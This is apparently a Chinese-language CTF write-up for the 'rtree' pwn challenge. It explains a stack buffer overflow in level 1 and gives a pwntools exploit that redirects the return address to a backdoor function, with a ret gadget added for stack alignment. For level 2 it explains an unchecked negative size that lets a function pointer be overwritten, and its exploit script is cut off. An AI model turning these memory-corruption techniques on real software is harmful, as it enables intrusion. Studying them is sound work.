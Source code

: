 ## rtree
### level1
还是入门题   
#### 思路
- 本题代码逻辑是在栈上实现了一个节点数组，对于数组中的每一项，都是一个 `Node` 结构体和它的数据，此外用一个全局变量数组来维护每一项地址范围的上界

- 漏洞在于，在读入数据时，`read` 函数第三个参数应该是输入的 `data` 的长度，但是这里写成了 `size + sizeof(Node)` 的形式，所以可以溢出 24 字节

- 我们直接覆盖返回地址为 `backdoor` 函数的地址，但是这样做会出现 segfault，有师傅也在群里和 feedback 中反映过这个问题，这是因为在 ubuntu 22.04 （即是本题采用的系统版本）之后，movaps 要求栈 8 字节对齐，`system` 函数中有 `movaps` 指令，所以说在劫持到 `backdoor` 函数中，有可能在 `movaps` 指令处崩掉，所以我们需要在 ROPchain 中加入一个 `ret` 指令来升栈，从而解决这个问题

#### exp
```py
from pwn import *

p = process("./rtree")
context(os="linux", arch="amd64", log_level="debug")

def add(key, size, data):
    p.sendlineafter(">> \n", "1")
    p.sendlineafter("key:", str(key))
    p.sendlineafter("data", str(size))
    p.sendafter("data:", data)

backdoor = 0x40122C
ret = 0x4015ED
payload = b"a" * (0x200 - 0x10) + p64(ret) + p64(backdoor)
add(1, 0x200 - 24, payload)
# gdb.attach(p)
# pause()
p.sendlineafter(">> \n", "4")
p.interactive()
```

### level2
也是入门题
#### 思路
- 本题实现了一个链表的数据结构，每一项由一个 0x28 大小的保存节点信息的堆块和一个保存数据的堆块组成

- 漏洞在于 `edit` 函数中，没有检查 siz 为负数的情况，所以可以往前写该保存节点信息的堆块

- 而在节点信息中，有一项是 `edit`，是函数指针类型，被初始化成了 `edit` 函数，如果对于该块还没有调用过 `edit` 功能，则会通过该函数指针进行调用，所以我们可以通过修改节点信息中的函数指针为 `backdoor` 函数的地址，从而 get shell

- 注意说这里不会出现 `movaps` 对齐的问题，但是如果在相同情况下出现了的话，可以通过覆盖函数指针为 0x40128f，即是少掉 `backdoor` 函数一开始的 `push rbp` 指令，从而解决

- 本题虽然结构体在堆上，但是只用大概知道堆块的结构和最最基础的分配方式就可以做，所以并不是堆题（

#### exp
```py
from pwn import *

context(os="linux", arch="amd64", log_level="debug")
p = process("./rtree")


def add(key, size, data):
    p.sendlineafter(">> \n", "1")
    p.sendlineafter("key:\n", str(key))
    p.sendlineafter("of the data:\n", str(size))
    p.sendafter("enter the data:\n", data)

```